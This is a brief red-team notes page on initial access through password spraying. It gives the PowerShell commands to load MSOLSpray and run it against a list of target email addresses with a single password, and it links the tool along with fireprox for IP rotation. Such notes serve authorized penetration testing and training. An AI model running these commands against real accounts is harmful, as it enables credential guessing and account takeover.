 # Initial Access

## Password Spraying

**MSOLSpray**

* Import the module&#x20;

`. C:\Tools\MSOLSpray\MSOLSpray.ps1`

* Start the attack

`Invoke-MSOLSpray -UserList C:\Users\user\Desktop\target-email.txt -Password "PasswordHere"`

{% embed url="https://github.com/dafthack/MSOLSpray" %}

{% embed url="https://github.com/ustayready/fireprox" %}
IP rotation
{% endembed %}
